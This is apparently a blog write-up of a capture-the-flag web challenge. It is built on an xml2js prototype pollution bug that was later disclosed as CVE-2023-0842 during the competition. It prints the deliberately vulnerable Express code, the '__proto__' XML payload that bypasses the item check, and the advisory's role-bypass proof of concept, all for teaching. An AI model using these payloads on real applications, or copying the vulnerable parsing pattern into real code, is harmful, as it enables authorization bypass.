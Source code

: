 +++
title = 'That Time My CTF Challenge Got a CVE Mid-Competition'
date = 2023-12-17
draft = false
summary = 'A short story on how a vulnerability, ignored for almost three years, is made public mid CTF making the solution to the challenge public.'
tags = ['Prototype Pollution', 'CVE', 'CTF', 'Writeup']
+++
Every year I have to create a variety of challenges for the Icelandic ECSC Qualifiers & Finals as
part of my work for the [Icelandic CTF Association](https://ggfi.is). When creating a CTF, several
aspects must be tested:

* Ensure that the perceived difficulty of the challenge is accurate.
* Check for any unintended solutions to the challenge.
* Verify that the challenge is in fact solvable.
* Confirm that the objective of the challenge is clear, i.e. not (too) guessy.

One question I didn't realize I had to ask myself when creating a CTF challenge:

> Will the CTF challenge receive a CVE and an accompanying advisory in the middle of the competition
> drastically changing the difficulty?

This year, one of my medium-difficulty challenges unexpectedly transformed into a super simple 
introductory challenge in the middle of the qualifiers. This happened because the vulnerability 
in the challenge was made public with an accompanying advisory during the competition.

## Inspiration For The Challenge
I participated in KalmarCTF in early March, one of the challenges I solved was 2cool4school. While
working on the challenge I stumbled upon a prototype pollution issue, which later turned out to be a 
dead end. Post-CTF, the challenge's source code was released, meaning I could figure out the cause
of the prototype pollution. It turned out that the prototype pollution I resided in a third-party 
npm package, `xml2js`.

Looking closer I notice that the challenge is using the latest version of the package and that the
package has over 18 million weekly downloads. Interesting, but how severe is the vulnerability? 
After playing around with the bug a bit I discover that the bug is quite limited, bummer. Turns 
out that the prototype of the object is being replaced and not modified, meaning that the inherited 
prototype of other objects are safe.

Curious to know if anyone else had flagged this concern, I searched the GitHub issues for the package.
It turns out that Dylan Katz had [reported](https://github.com/Leonidas-from-XIV/node-xml2js/issues/593) 
this issue back in 2020, and there's already a [pull request](https://github.com/Leonidas-from-XIV/node-xml2js/pull/603) from 2021 fixing the issue.

So, turns out, the bug is boring. Someone already reported it, and it seems to be a
non-issue since it hasn't been fixed. Well, at least we can make this into a somewhat interesting 
CTF challenge.

## SO Fresh SO Clean
The challenge, named *SO Fresh SO Clean*, is a rather simple web challenge. You receive a link to a
website as well as some source code. The website is a simple shopping website with seemingly no
functionality other than allowing you to add items to your cart. One of the items is a flag but if
you try to add the flag to your cart you will receive an error message stating that it is an
*Invalid item*. Let's take a look at the code:

{{< highlight JavaScript >}}
const express = require('express');
const path = require('node:path');
const bodyParser = require('body-parser');
const { readFile } = require('fs/promises');
const parseString = require('xml2js').parseString;

const app = express()
const port = 5000

app.use(express.static('static'))
app.use(bodyParser.text({ type: 'text/xml' }))

function invalidItem(item) {
    return JSON.stringify(item).includes('flag');
}

app.get('/', (req, res) => {
    res.sendFile('index.html', { root: path.join(__dirname, 'templates')});
})

app.get('/cart', async (req, res) => {
    let cartTemplate = await readFile('templates/cart.html', 'utf8');
    let html = cartTemplate.replaceAll('{{ item }}', 'Your cart is empty');
    res.setHeader('Content-Type', 'text/html');
    res.send(html);
})

app.post('/cart', async (req, res) => {
    let cart = null;
    let html = null;
    let cartTemplate = await readFile('templates/cart.html', 'utf8');
    try {
        parseString(req.body, function (err, cart) {
            if (invalidItem(cart)) {
                res.statusCode = 400;
                return res.send('Invalid item!');
            }
            if (cart.item.includes('flag')) {
                html = cartTemplate.replaceAll('{{ item }}', process.env.FLAG || 'gg{not_a_flag}');
            } else {
                html = cartTemplate.replaceAll('{{ item }}', cart.item)
            }
            res.setHeader('Content-Type', 'text/html');
            res.send(html);
        });
    } catch(e) {
        res.statusCode = 500;
        return res.send(e.message);
    }
})  

app.listen(port, () => {
    console.log(`listening on port ${port}`);
})
{{< /highlight >}}

Most of the code is just boilerplate. We can see that the main logic is in the method handling
`POST /cart`. After reading through the code, it should be clear that the objective of the challenge
is to place the `flag` item in the cart. This is because we receive the flag for the challenge if 
the cart includes the `flag` item. To get to that point we must first ensure that the call to
`invalidItem('cart')` returns false.

{{< highlight JavaScript >}}
function invalidItem(item) {
    return JSON.stringify(item).includes('flag');
}
{{< /highlight >}}

We now know that two conditions must be met:

* `JSON.stringify(item).includes('flag')` must be false.
* `cart.item.includes('flag')` must be true.

How do we achieve this?

### The Solution
When we look at the request made to `POST /cart` we can see that an XML object is being sent to the
backend:

{{< highlight XML >}}
<item>hat</item>
{{< /highlight >}}

Now looking back at the code we can see that the function used for parsing the object, `parseString`,
is imported from `xml2js`. The package's description reads:

> Simple XML to JavaScript object converter.

For some this might ring warning bells immediately as it is a classic example of how Prototype 
Pollution vulnerabilities can arise. For those unfamiliar with prototype pollution you can read 
about it [here](https://portswigger.net/web-security/prototype-pollution).

Now we want to try and pollute the prototype of the `cart` object. We do this by submitting a XML
object that looks something like this:

{{< highlight XML >}}
<__proto__><item>flag</item></__proto__>
{{< /highlight >}}

Submitting the above object would result in the flag. Why does this work? Let's take a look at
how the object differs when using `__proto__` and when we don't:

{{< highlight JavaScript >}}
// <item>flag</item>
JSON.stringify(item) // {"item": "flag"}
cart.item // "flag"

JSON.stringify(item).includes('flag') // true
cart.item.includes('flag') // true

// <__proto__><item>flag</item></__proto__>
JSON.stringify(item) // {}
cart.item // ["flag"]

JSON.stringify(item).includes('flag') // false
cart.item.includes('flag') // true
{{< /highlight >}}

The reason that `JSON.stringify(item)` returns an empty JSON object while `cart.item` returns
the item is due to the prototype being polluted. This means the actual object does not include
the `flag` item, but its prototype does. When we call `cart.item`, JavaScript won't find the value
in the object itself so JavaScript looks into the object's prototype next where it finds the item.

## CVE-2023-0842
On April 10th Fluid Attacks discloses CVE-2023-0842, a prototype pollution vulnerability affecting
`xml2js` - the same vulnerability as in the challenge. They publish an advisory which can be found
[here](https://fluidattacks.com/advisories/myers/). Reading through the advisory, we find an example
of how the package can lead to an exploitable vulnerability.

{{< highlight JavaScript >}}
var parseString = require('xml2js').parseString;

let normal_user_request    = "<role>admin</role>";
let malicious_user_request = "<__proto__><role>admin</role></__proto__>";

const update_user = (userProp) => {
    // A user cannot alter his role. This way we prevent privilege escalations.
    parseString(userProp, function (err, user) {
        if(user.hasOwnProperty("role") && user?.role.toLowerCase() === "admin") {
            console.log("Unauthorized Action");
        } else {
            console.log(user?.role[0]);
        }
    });
}

update_user(normal_user_request);
update_user(malicious_user_request);
{{< /highlight >}}

When the advisory was published, the competitors no longer needed to learn about prototype pollution 
or figure out how to solve the challenge. They could instead just search for vulnerabilities 
affecting `xml2js`, read the advisory and try out the exploit showed in the advisory. 

## Conclusion
The advisory made my introductory prototype pollution challenge into a very simple *search for the CVE*
challenge mid-competition. This could also be seen in the number of solves before and after the
advisory. Luckily this didn't change too much as people could always discover the GitHub issue from
bwolff although that would still require at least a little bit of research.

We went from discovering an unpatched vulnerability during a CTF, transforming it into a CTF challenge,
and then witnessing the vulnerability become public during the CTF competition. The coincidence of a
vulnerability that had been overlooked for almost three years getting patched and disclosed while I 
hosted a CTF challenge based on it is interesting.

## Timeline
* [2020-11-30 - bwolff reports the vulnerability on behalf of Dylan Katz](https://github.com/Leonidas-from-XIV/node-xml2js/issues/593).
* [2021-03-02 - autopulated submits a PR fixing the vulnerability](https://github.com/Leonidas-from-XIV/node-xml2js/pull/603).
* 2023-02-14 - Fluid Attacks discover the vulnerability and contact vendor.
* 2023-03-05 - I discover the vulnerability.
* 2023-03-08 - I create a challenge based on the vulnerability.
* 2023-04-01 - The Icelandic qualifiers start.
* [2023-04-07 - An issue is made on GitHub mentioning the vulnerability](https://github.com/Leonidas-from-XIV/node-xml2js/issues/663).
* 2023-04-10 - The vulnerability is disclosed.
* 2023-04-30 - The CTF ends.
